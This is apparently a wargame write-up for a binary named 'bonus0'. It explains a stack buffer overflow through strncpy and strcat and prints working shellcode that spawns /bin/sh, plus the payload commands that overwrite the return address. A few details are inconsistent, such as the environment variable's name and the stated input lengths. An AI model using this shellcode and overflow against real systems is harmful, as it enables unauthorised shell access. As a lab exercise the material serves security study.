 looking at the code (see source.c) we can see that the program is vulnerable to a buffer overflow attack (like always).
it copy stdin into a buffer of 20 char using strncpy(dest, src, 20), but if src is greater than 20 bytes it will not be \0 terminated,
which mean the next strcat will read beyond the 20 char of the string.

we need to overflow the main buffer of 54 bytes, which we'll do with:
input1(20) + input2(20) + space(1) + input2(20) = 61 bytes
we need to put the address of our shellcode into input2 at the 54th byte of the main buffer, so the return address will be overwritten with the address of the shellcode.
the 54th byte is the 9th byte of input2, so we need to put the shellcode there.

for conveniance we will put the shellcode in a shell variable, and redirect the program to it's address:
`export code=$(python -c "print '\x90'*4+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

getting the address of the shellcode:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  printf("%p\n", getenv(argv[1]));
}
```

`./a.out SHELLCODE` -> `0xbffff916`

input1 = `i*20` (20 bytes so it doesn't end with \0)
input2 = `i*9` + shellcode address + `i*7`

full payload:
`python -c "print 'i'*4095 + '\n' + 'i'*9 + '\x16\xf9\xff\xbf' + 'i'*7" > /tmp/a`
`cat /tmp/a - |./bonus0`
